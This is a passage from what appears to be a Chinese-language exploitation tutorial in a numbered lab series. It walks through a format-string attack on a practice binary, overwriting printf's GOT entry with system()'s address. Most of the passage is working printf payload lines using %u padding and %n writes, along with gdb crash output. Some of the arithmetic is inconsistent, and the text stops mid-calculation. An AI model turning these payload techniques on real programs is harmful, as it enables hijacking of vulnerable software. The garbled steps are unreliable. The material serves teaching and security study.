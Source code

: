 x/x 0x08049bfc

现在说printf位于地址：0x00000004

可以看到准备格式字符串所需的填充时，主要为了调试应用程序！
将使用printf()用于管道的方法对./my_first来重定向到文件，然后在中gdb中运行二进制文件，可以看到使用编译的文件来重定向输入到printf()！

剩下的就是填充格式字符串！下一个目标是将地址0x00000004变成0x40069060，即system()的地址！


9）计算栈空间位置前半段位置
项目三十六里面格式字符串最后有算数的地方！当时是计算机计算，现在教利用python进行计算！

1. system() = 0x40069060
2. printf = 0x08049bfc

只需要将system的空间地址分两块进行：
4006
9060
由于是小端，从9060开始计算！

计算9060：
我们知道十进制表示法中的位置0004是4，然后我们可以将9060转换为十进制即36960，然后我们从36960中减去4：

shell echo $(python -c 'print 0x9060-0x4')
得到：36956

可以将36956u（%u 是无符号十进制数）和%%8$n（将写入第8位）添加到我们的shell有效负载中，测试看看这是否有效：

printf '1\n1\n\xfc\x9b\x04\x08%%36956u%%8$n' > shell
gdb ./my_first
r < shell
回显：
Program received signal SIGSEGV, Segmentation fault.
0x00009060 in ?? ()

成功编写了前半段的system()位置！



10）计算栈空间位置后半段位置

项目三十六也讲解过了，后半段空间需要实际移动内存中的2个位置来写入这个值也就是：
0x08049bfc
0x08049bfe(+2)

所以shellcode变为：
printf '1\n1\n\xfc\x9b\x04\x08\xfe\x9b\x04\x08%%36956u%%8$n%%9$n' > shell
gdb ./my_first
r < shell
0x90649064 in ?? ()
下半部分已经从9060变为9064，这没问题只需要从原始小数中减去4即可
还注意到上半部分是9064，用4006是正确的上半部分进行相同的计算，然后从9064中减去它，这里需要在最低有效位上加一个1，这会进入相同的内存地址，0x14006在去进行减法：
int ("9064", 16)    ---计算出36964
int("14006", 16)    ---计算出81926
81926 - 36946
44962

shellcode编写：继续测试：
printf '1\n1\n\xfc\x9b\x04\x08\xfe\x9b\x04\x08%%36952u%%8$n%%44962u%%9$n' > shell
gdb ./my_first
r < shell
0x40029060 in ?? ()
可看到还是不对，实际上可以减去十六进制4014和十六进制4006，这是十进制的4之差！
int ("4002", 16)    ---计算出16386
int ("4006", 16)    ---计算出16390
16386 - 16390
-4
